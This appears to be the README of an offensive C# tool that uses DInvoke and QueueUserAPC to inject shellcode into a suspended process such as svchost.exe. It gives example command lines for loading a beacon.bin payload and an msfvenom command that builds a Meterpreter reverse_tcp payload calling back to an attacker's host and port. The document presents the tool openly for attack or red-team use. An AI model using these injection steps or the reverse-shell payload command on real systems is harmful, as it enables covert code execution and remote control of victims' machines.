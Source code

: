 # CS-Dinvoke-APCInjection
DInvoke version API call QueueUserAPC. 

Open a process in a suspended state, allocate some memory into it, write shellcode into that allocated region, queue and APC to the thread and then resume it. Please note that no Anti-virus or EDR bypass has been implemented.

	Example:
	APCInjection.exe -f beacon.bin -a "C:\Windows\System32\svchost.exe"
	APCInjection.exe -f "C:\temp\beacon.bin" -a "C:\Windows\System32\svchost.exe"
	
	APCInjection.exe
	Default using payload with beacon.bin at current directory and open process with svchost.exe

For the rawfile, can generate with msfvenom to test:

	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -o beacon.bin -f raw

Reference: https://github.com/crypt0ace/CS-APCInjection
